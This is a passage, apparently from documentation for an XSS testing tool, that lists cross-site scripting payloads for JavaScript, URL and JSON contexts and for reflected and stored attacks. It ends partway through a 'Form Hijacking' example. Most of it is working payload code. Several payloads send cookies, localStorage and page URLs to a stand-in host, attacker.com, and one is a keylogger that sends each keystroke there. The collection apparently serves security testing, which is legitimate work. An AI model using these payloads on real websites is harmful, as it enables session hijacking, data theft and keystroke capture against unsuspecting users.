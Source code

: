 #### Context Tests

Tests XSS in different DOM contexts:

```javascript
# JavaScript Variable Context
var user = "USER_INPUT";          # String variable
var obj = {"key": "USER_INPUT"};  # Object property
var arr = ["USER_INPUT"];         # Array element

# URL Parameter Context
?param=<script>alert(1)</script>  # Basic URL injection
?param=javascript:alert(1)        # JavaScript protocol
?param=data:text/html,<script>alert(1)</script>  # Data protocol

# JSON Context
{"key":"<script>alert(1)</script>"}  # JSON string
{"key":"</script><script>alert(1)</script>"}  # Script tag break
```

## Attack Vectors

### Reflected XSS

XSS payload is reflected back in the server's immediate response:

```javascript
# Basic Script Injection
<script>alert(document.cookie)</script>
<script>fetch('https://attacker.com?cookie='+document.cookie)</script>

# Event Handler Injection
<img src=x onerror="alert(document.cookie)">
<body onload="fetch('https://attacker.com?cookie='+document.cookie)">

# JavaScript Protocol
javascript:alert(document.cookie)
javascript:fetch('https://attacker.com?cookie='+document.cookie)
```

### Stored XSS

Payload is stored on the target server and executed when users visit a page:

```javascript
# Data Exfiltration
<script>
  fetch('https://attacker.com', {
    method: 'POST',
    body: JSON.stringify({
      cookies: document.cookie,
      url: window.location.href,
      localStorage: localStorage
    })
  });
</script>

# Keylogger Injection
<script>
  document.onkeypress = function(e) {
    fetch('https://attacker.com/log?key=' + e.key);
  }
</script>

# Form Hijacking
<script>
```